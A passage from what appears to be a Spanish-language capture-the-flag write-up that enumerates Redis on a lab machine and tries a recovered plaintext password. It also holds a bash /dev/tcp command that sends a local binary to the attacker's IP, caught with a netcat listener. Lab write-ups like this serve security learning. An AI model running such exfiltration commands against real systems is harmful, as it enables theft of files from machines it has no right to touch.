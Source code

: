 - Si escribimos `redis` y tabulamos vemos varios `redis`.

```bash
dan_smith@shared:~$ redis
redis-benchmark      redis-check-aof      redis-check-rdb      redis-cli            redis_connector_dev  redis-server
dan_smith@shared:~$ redis
```

- Aquí nos dicen como podemos enumerar `redis` <https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis>.

- Nos conectamos pero no podemos ver información.

```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> INFO
NOAUTH Authentication required.
127.0.0.1:6379>
```

- Si probamos con las credenciales que tenemos no funcionan.

```bash
127.0.0.1:6379> AUTH james_mason Soleil101
(error) WRONGPASS invalid username-password pair
127.0.0.1:6379>
```

- Para hacer pruebas desde nuestro entorno de atacante vamos a mandarnos el binario.

```bash
dan_smith@shared:~$ cat < /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.14.55/443
```

```bash
➜  content nc -nlvp 443 > redis_connector_dev
listening on [any] 443 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.11.172] 51872
```

- Vamos a ejecutarlo.

```bash
➜  content chmod +x redis_connector_dev
➜  content ./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
 dial tcp [::1]:6379: connect: connection refused
```

- El error básicamente es que no hay conexión con el puerto en escucha entonces nos vamos a poner en escucha en ese puerto para ver que nos llega.

```bash
➜  content ./redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
```
